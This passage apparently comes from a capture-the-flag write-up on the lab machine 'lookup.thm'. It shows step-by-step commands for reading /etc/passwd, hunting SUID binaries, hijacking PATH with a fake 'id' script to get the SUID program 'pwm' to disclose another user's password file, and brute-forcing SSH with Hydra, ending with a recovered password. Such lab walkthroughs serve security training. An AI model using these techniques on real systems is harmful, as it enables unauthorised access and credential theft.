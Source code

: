 Next, let’s check the `/etc/passwd` file for potential user accounts:

```
cat /etc/passwd
```

Upon inspection, we find that the user `think` exists:

```
think:x:1000:1000:,,,:/home/think:/bin/bash
```

Now, let's look for potential privilege escalation opportunities. First, let’s check for any files with the SUID bit set:

```
find / -perm /4000 2>/dev/null
```

We find a suspicious file: `/usr/sbin/pwm`. Let’s try to execute it:

```
/usr/sbin/pwm
```

The command checks the ID and attempts to grab a file at `/home/www-data/.passwords`. We can manipulate the `PATH` to exploit this further.

Let’s export the path to `/tmp`, which is world-readable:

```
export PATH=/tmp:$PATH
```

Create a file in `/tmp` that impersonates the `think` user by modifying the `id` command:

```
echo -e '#!/bin/bash\n echo "uid=33(think) gid=33(think) groups=33(think)"' > /tmp/id
chmod +x /tmp/id
```

Now, re-run the `pwm` command:

```
/usr/sbin/pwm
```

This successfully changes the user to `think` and gives us access to their password file. After gathering potential passwords, we can perform an SSH brute-force attack using Hydra:

```
hydra -l think -P wordlist.txt ssh://lookup.thm
```

The attack is successful, and we obtain the password for `think`:

```
think:josemario.AKA(think)
```

Finally, we log in as `think`:

```
ssh think@lookup.thm
```
